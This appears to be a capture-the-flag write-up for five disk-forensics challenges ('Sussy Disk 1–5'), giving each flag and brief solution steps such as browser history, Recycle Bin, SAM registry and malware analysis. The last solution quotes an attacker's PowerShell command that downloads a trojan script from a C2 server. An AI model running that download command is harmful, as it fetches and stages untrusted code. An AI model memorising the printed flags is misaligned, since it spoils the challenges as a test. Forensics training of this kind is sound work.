 # Sussy Disk 1

| Key            | Value                                                                                                                                                                                                                                                                                                                                                                            |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 1                                                                                                                                                                                                                                                                                                                                                                     |
| Author         | warlocksmurf                                                                                                                                                                                                                                                                                                                                                                     |
| Category       | Forensics                                                                                                                                                                                                                                                                                                                                                                        |
| Description    | The forensics team recently recovered a disk image from a compromised machine. Your job as an intern is to help uncover what the attacker had done to the compromised machine and what artifacts you can dig up for the final report. After infiltrating the machine, the attacker searched up some suspicious stuff on the Internet, I wonder what was the attacker looking for? |
| Challenge Type | Static                                                                                                                                                                                                                                                                                                                                                                           |
| Flag           | sunctf{g00gle_the_g0at}                                                                                                                                                                                                                                                                                                                                                          |
| Score          | 100                                                                                                                                                                                                                                                                                                                                                                              |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Extract and analyze the Google History file.

   ![sol1](docs/sol1.png)

</details>

# Sussy Disk 2

| Key            | Value                                                                                                       |
|----------------|-------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 2                                                                                                |
| Author         | warlocksmurf                                                                                                |
| Category       | Forensics                                                                                                   |
| Description    | The victim mentioned that one of his file was missing from the machine, the attacker might have deleted it. |
| Challenge Type | Static                                                                                                      |
| Flag           | sunctf{remember_your_handles}                                                                               |
| Score          | 150                                                                                                         |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Analyze the Recycle Bin for the deleted flag.

   ![sol2](docs/sol2.png)

</details>

# Sussy Disk 3

| Key            | Value                                                                                                                                                             |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 3                                                                                                                                                      |
| Author         | warlocksmurf                                                                                                                                                      |
| Category       | Forensics                                                                                                                                                         |
| Description    | The forensics team needs to know the answers of the backup questions created by the victim. Can you retrieve them?<br><br>Flag format: `sunctf{Ans1_Ans2_An3}`. |
| Challenge Type | Static                                                                                                                                                            |
| Flag           | sunctf{Wowiee_SuperTsumu_Shen}                                                                                                                                    |
| Score          | 300                                                                                                                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Two ways: extract and analyze the SAM registry, or use tools
   from [Nirsoft](https://www.nirsoft.net/utils/security_questions_view.html) to automatically extract it.

   ![sol4](docs/sol4.png)

</details>

# Sussy Disk 4

| Key            | Value                                                                                                                                                |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 4                                                                                                                                         |
| Author         | warlocksmurf                                                                                                                                         |
| Category       | Forensics                                                                                                                                            |
| Description    | The attacker attempted to access a confidential ZIP file stored somewhere in the machine. The attacker was also known to be a huge fan of PowerShell. |
| Challenge Type | Static                                                                                                                                               |
| Flag           | sunctf{powershell_is_my_favourite_language}                                                                                                          |
| Score          | 400                                                                                                                                                  |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) A password-protected ZIP file can be obtained from the Documents folder. Since the question mentioned the attacker is
   a fan of Powershell, the password can be obtained there.

   ![sol3](docs/sol3.png)

</details>

# Sussy Disk 5

| Key            | Value                                                                                           |
|----------------|-------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 5                                                                                    |
| Author         | warlocksmurf                                                                                    |
| Category       | Forensics                                                                                       |
| Description    | Finally, it is time to identify the malware and understand its functions. The flag has 3 parts. |
| Challenge Type | Static                                                                                          |
| Flag           | sunctf{malware_analysis_is_not_that_hard}                                                       |
| Score          | 500                                                                                             |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) The Powershell history will show that a malicious Powershell script is downloaded from a C2. Analyzing the powershell
   script, the first part of the flag can be identified.

   `Invoke-WebRequest "http://192.168.1.73:8000/trojan.ps1" -OutFile C:\Users\warlocksmurf\Downloads\trojan.ps1`

   ![sol5](docs/sol5.png)

2) The Powershell script also dropped a base64 encoded malware to the Pictures folder. Going to the folder, an encrypted
   image can be identified with the malware. Analyzing the malware, it encrypted the image with XOR 35 and placed the
   third part of the flag in Temp folder.

   ![sol6](docs/sol6.png)

   ![sol7](docs/sol7.png)

3) The third part of the flag is a simple base64 and ROT13 encoded text.

   ![sol8](docs/sol8.png)

</details>
